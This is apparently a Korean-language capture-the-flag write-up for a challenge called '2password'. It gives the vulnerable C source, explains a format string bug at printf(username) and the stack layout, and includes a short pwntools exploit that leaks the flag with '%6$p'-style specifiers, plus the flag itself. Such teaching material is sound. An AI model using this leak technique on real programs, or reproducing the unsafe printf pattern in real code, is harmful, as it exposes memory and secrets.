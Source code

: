 # 2password

## Description

---

2Password > 1Password

## Environment

---

![스크린샷 2025-02-10 오후 4.21.47.png](2password%200842e4d6c51e4a73821d4cee340918c8/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA_2025-02-10_%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE_4.21.47.png)

## 코드 분석

---

### chall.c

- 아래는 문제에서 제공한 `chall.c` 이다.

```python
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void readline(char *buf, size_t size, FILE *file) {
  if (!fgets(buf, size, file)) {
    puts("wtf");
    exit(1);
  }
  char *end = strchr(buf, '\n');
  if (end) {
    *end = '\0';
  }
}

int main(void) {
  setbuf(stdout, NULL);
  printf("Enter username: ");
  char username[42];
  readline(username, sizeof username, stdin);
  printf("Enter password1: ");
  char password1[42];
  readline(password1, sizeof password1, stdin);
  printf("Enter password2: ");
  char password2[42];
  readline(password2, sizeof password2, stdin);
  FILE *flag_file = fopen("flag.txt", "r");
  if (!flag_file) {
    puts("can't open flag");
    exit(1);
  }
  char flag[42];
  readline(flag, sizeof flag, flag_file);
  if (strcmp(username, "kaiphait") == 0 &&
      strcmp(password1, "correct horse battery staple") == 0 &&
      strcmp(password2, flag) == 0) {
    puts("Access granted");
  } else {
    printf("Incorrect password for user ");
    printf(username);
    printf("\n");
  }
}
```

- 플래그의 값을 알고만 있다면 `strcmp(password2, flag) == 0)` 에 통과할 수 있다. → 그냥 플래그 제출하면 됨
- 하지만 플래그를 알지 못하니까.. 다른 방법으로 획득해야 한다.
- `printf(username)` 에서 포맷 스트링 버그가 발생한다.

## 익스플로잇

---

### Format String Bug

- `readline(flag, sizeof flag, flag_file)` 을 이용하여 플래그 값을 저장하므로, 해당 부분을 Leak하면 플래그를 획득할 수 있다.

- `readline(flag, sizeof flag, flag_file)` 에서 플래그의 값을 `[rbp-0xd0]` 에 저장한다.

![스크린샷 2025-02-10 오후 4.27.32.png](2password%200842e4d6c51e4a73821d4cee340918c8/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA_2025-02-10_%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE_4.27.32.png)

- `main` 에서 스택을 `0xd0` 만큼 할당했으므로, 플래그는 `rsp` 위치에 저장되는 것을 알 수 있다.

![스크린샷 2025-02-10 오후 4.28.20.png](2password%200842e4d6c51e4a73821d4cee340918c8/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA_2025-02-10_%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE_4.28.20.png)

- 따라서 `rsp` 부터 값을 읽으면 플래그를 획득할 수 있다.
- `rdi` → 포맷 스트링
- `rsi` → `rdx` → `rcx` → `r8` → `r9` → `[rsp]` → `[rsp+8]` → `[rsp+0x10]` ….

### exploit.py

```purescript
from pwn import *

p = remote('chall.lac.tf', 31142)

context.log_level = 'debug'

payload = b'%6$p %7$p %8$p %9$p'
p.sendlineafter(b'username: ', payload)
p.sendlineafter(b'password1: ', b'1')
p.sendlineafter(b'password2: ', b'2')

p.interactive()

# lactf{hunter2_cfc0xz68}
```

![스크린샷 2025-02-10 오후 4.31.09.png](2password%200842e4d6c51e4a73821d4cee340918c8/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA_2025-02-10_%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE_4.31.09.png)

![스크린샷 2025-02-08 오후 1.54.33.png](2password%200842e4d6c51e4a73821d4cee340918c8/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA_2025-02-08_%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE_1.54.33.png)